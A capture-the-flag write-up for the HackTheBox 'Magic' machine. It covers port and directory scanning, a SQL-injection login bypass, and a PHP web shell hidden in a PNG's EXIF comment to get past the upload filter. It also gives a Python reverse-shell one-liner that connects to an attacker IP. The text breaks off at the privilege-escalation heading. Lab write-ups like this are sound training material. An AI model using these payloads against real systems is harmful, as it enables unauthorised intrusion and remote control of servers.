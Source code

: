 # Recon
```
sudo nmap -sV -p- -sC -oN nmap.txt -O 10.10.10.185 -T5
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/1.png">

We discover two open ports and see that the target is running Linux. Browsing to the webserver on port 80 shows us an image upload page. We can try to gain initial foothold by uploading a reverse script. This will bropably be blocked by a filter but we can try to bypass this.

# Enumeration
We find a link to a login page. Let's first try to run gobuster in an attempt to find folders and files which could lead us to usernames and other info. We also check to see if there's a robots.txt file which can contain usefull folders.

We'll run two gobuster scans. One for file discovery and one for folders.
```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://10.10.10.185 -x txt
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.185
```
Other than three folders (```/assets /images /server-status```) we don't find anything interesting.

Because we will probably try to upload shell code to our target for initial access it is important to know where the files will be uploaded. Therefor we will run another gobuster scan on the ```/images``` directory.

We've found an ```/uploads``` folder. This might be usefull later on.

# Initial Foothold
 Next we'll try some default usernames and passwords but without any luck. One thing we didn't try was if we could use SQL injection to bypass the login screen. That seems to work as we are now logged in and able to upload images.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/2.png">

There is a filter blocking other filetypes than JPG, JPEG and PNG files. Let's fire up BurSuite to see if we can intercept the request and change it to our liking. Let's rename a JPEG file to .jpeg.php and intercept the request. We did the exact same thing eralier on the Popcorn box.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/4.png">

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/3.png">

That didn't seem to work because there is another filter blocking our attempt. This will probably be a check for file signatures. These signatures are known as magic numbers or Magic Bytes. For PNG files these are ```89 50 4E 47 0D 0A 1A 0A```. We can however add some code to a genuine PNG file in an attempt to bypass this signature filter.

We well use ```exiftools``` for this:
```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' exploit.php.png 
```
The file was successfully uploaded. We can now try to see if we can run commands by browsing to it's location and a simple ```list``` command. We know this locations because of the earlier found ```/uploads``` directory.

```
http://10.10.10.185/images/uploads/exploit.php.png?cmd=ls
```

That worked!

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/5.png">

We can now alter the command to spawn a reverse shell. We'll use the Python code from the Pentestmonkey Cheat Sheet.

```
http://10.10.10.185/images/uploads/exploit.php.png?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.6",4444))](http://10.10.10.185/images/uploads/exploit.php.png?cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.14.6%22,4444));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27)
```
With our listener ready on port 4444 we now have a low priviliged reverse shell:

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/6.png">

# Privilege Escalation
